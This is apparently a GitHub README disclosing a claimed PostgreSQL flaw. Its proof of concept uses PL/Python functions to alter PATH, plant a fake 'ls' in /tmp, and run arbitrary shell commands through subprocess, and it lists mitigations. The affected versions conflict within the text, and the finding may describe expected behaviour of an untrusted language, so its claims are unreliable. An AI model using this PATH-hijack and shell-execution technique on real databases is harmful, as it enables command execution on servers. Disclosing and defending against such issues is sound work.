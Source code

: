 # PostgreSQL Environment Variable Manipulation Vulnerability

## Description
This repository documents a vulnerability identified in PostgreSQL versions 16.3, 17.1 and 17.2 that allows for unauthorized manipulation of environment variables using `PL/Python` functions. 
This issue can lead to unauthorized command execution, privilege escalation, and other potential security impacts.

## Affected Products/Versions
- **Product**: PostgreSQL
- **Versions Affected**: 16.3, 17.1

## Proof-of-Concept (PoC)
### Steps to Reproduce
1. Connect to the PostgreSQL database as a user with permissions to create functions.
   ```bash
   psql -U [username] -d [database_name]
2. Create a PL/Python function to modify the PATH environment variable:
   ```bash
   CREATE FUNCTION test_env_python() RETURNS void AS $$
   import os
   os.environ['PATH'] = '/tmp/test_bin:' + os.environ['PATH']
   $$ LANGUAGE plpython3u;
3. Verify the change by creating a custom script in /tmp/test_bin and executing it through PostgreSQL.
   Create the script:
   ```bash
   mkdir /tmp/test_bin
   echo -e '#!/bin/bash\n echo "Custom script executed!"' > /tmp/test_bin/ls
   chmod +x /tmp/test_bin/ls
4. Execute the script through a PostgreSQL function:
   ```bash
   CREATE FUNCTION run_shell_command(cmd TEXT) RETURNS void AS $$
   import subprocess
   subprocess.run(cmd, shell=True)
   $$ LANGUAGE plpython3u;

   SELECT run_shell_command('ls');

## Expected Outcome
The custom ls script in /tmp/test_bin is executed, demonstrating that environment variable manipulation allows for custom command execution.

### Impact

### This vulnerability enables:

Unauthorized Code Execution: An attacker with permissions to create functions may modify the environment and execute arbitrary commands.
Privilege Escalation: Depending on the privileges of the PostgreSQL user, an attacker may gain higher-level access or control over the underlying server.

## Suggested Mitigations

-Restrict Permissions: Limit the creation of PL/Python and PL/Perl functions to trusted users only.
-Environment Variable Sanitization: Ensure that environment variables are properly sanitized and modifications are restricted.
-Upgrade PostgreSQL: If a fix is released by the PostgreSQL Global Development Group, update to the latest version.
-Audit Database Functions: Regularly audit user-created functions to detect and prevent potential exploitation.

Discovered by Fabian Mora, November 2024.
   

